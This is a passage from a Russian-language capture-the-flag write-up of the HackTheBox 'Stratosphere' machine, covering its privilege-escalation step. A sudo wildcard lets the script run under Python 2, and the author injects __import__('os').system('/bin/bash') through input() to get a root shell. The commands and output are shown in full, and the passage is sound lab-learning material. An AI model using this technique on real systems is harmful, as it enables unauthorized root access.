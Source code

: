 Видно, что команда `python` так же указывает на интерпретатор 3-й версии. Уже второй раз нам активно внушают идею запуска скрипта именно с помощью этой версии питона... Не совсем обычно, зацепка? Памятуя о том, **кто** владелец файла, посмотрим на вывод `sudo -l`:
```
richard@stratosphere:~$ sudo -l
Matching Defaults entries for richard on stratosphere:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
```

`/usr/bin/python*`??? What's that wildcard `*`?? Это фейл, ребят. Смотрим на доступные питоны в системы:
```text
richard@stratosphere:~$ ls -l /usr/bin/python*
lrwxrwxrwx 1 root root      16 Feb 11  2018 /usr/bin/python -> /usr/bin/python3
lrwxrwxrwx 1 root root       9 Jan 24  2017 /usr/bin/python2 -> python2.7
-rwxr-xr-x 1 root root 3779512 Nov 24  2017 /usr/bin/python2.7
lrwxrwxrwx 1 root root       9 Jan 20  2017 /usr/bin/python3 -> python3.5
-rwxr-xr-x 2 root root 4747120 Jan 19  2017 /usr/bin/python3.5
-rwxr-xr-x 2 root root 4747120 Jan 19  2017 /usr/bin/python3.5m
lrwxrwxrwx 1 root root      10 Jan 20  2017 /usr/bin/python3m -> python3.5m
```

[Известно](https://docs.python.org/2/library/functions.html#input "2. Built-in Functions — Python 2.7.15 documentation"), что в Python 2 функция `input()` эквивалентна такой конструкции: `eval(raw_input())`. Поэтому запуск `test.py` с помощью Python 2 позволит пользователю выполнять системные команды, в данном случае от имени рута, чем мы собственно и займемся.

В [этом](https://vipulchaskar.blogspot.com/2012/10/exploiting-eval-function-in-python.html "Vipul Chaskar's Blog: Exploiting eval() function in Python") посте хорошо описан механизм эксплуатации функции `eval()` для Пайтона, а я же просто ~~поимею~~ получу root-сессию:
```text
richard@stratosphere:~$ sudo /usr/bin/python2 ~/test.py
Solve: 5af003e100c80923ec04d65933d382cb
__import__('os').system('/bin/bash')

root@stratosphere:/home/richard# whoami
root

root@stratosphere:/home/richard# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
```text
root@stratosphere:/home/richard# cat /root/root.txt
d41d8cd9????????????????????????
```

Кстати, уже сейчас можно разоблачить негодяев, удостоверившись в том, что обещанного `/root/success.py` не существует:
```text
root@stratosphere:/home/richard# ls /root/success.py
ls: cannot access '/root/success.py': No such file or directory
```
